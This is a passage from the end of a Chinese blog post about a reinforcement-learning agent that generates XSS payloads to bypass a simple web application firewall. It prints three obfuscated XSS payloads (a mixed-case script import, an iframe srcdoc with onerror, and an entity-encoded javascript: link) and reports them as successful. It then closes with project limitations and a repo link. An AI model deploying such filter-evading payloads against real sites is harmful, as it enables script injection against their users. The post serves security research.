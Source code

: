 

这是前期生成的payload，试试后面轮次生成的payload

```<scRiPt>import('data:text/javascript,alert()')</sCRiPt>```

成功！

![image-20250508220316952](https://s2.loli.net/2025/05/08/3PTl9aoKAuR46Xs.png)



再多试试几个

```<ifRamE sRcdOC="&lt;img src=1 onerror=&apos;alert()'>"></ifRame>```

```<A Href="&#x4a;&#x0a;a&#x0a;v&#x0a;A&#x0a;s&#x0a;C&#x09;R&#x09;i&#x0a;p&#x09;t&colon;aler&#116;()&semi;">XSS</a>```

成功！

![image-20250508215939857](https://s2.loli.net/2025/05/08/vyOfK7npimlx9c3.png)

![image-20250508220420505](https://s2.loli.net/2025/05/08/mbi6PlznEfDcd4u.png)

## 总结

这个项目只是初期阶段，还有很多可以完善的地方，比如智能体的大脑我们这里只使用了简单的全连接层，还可以使用长短期记忆网络和transformer的编码器来学习更复杂的绕过方式，还有不足之处是这里的waf写的很简单，不能很好的应用等实际的环境中，提出上述的不足，希望诸君可以在此上完善

最最重要的是：整个项目就不方便写在这里了，需要代码的话，来我的github取吧https://github.com/ignite0522/waf-agent

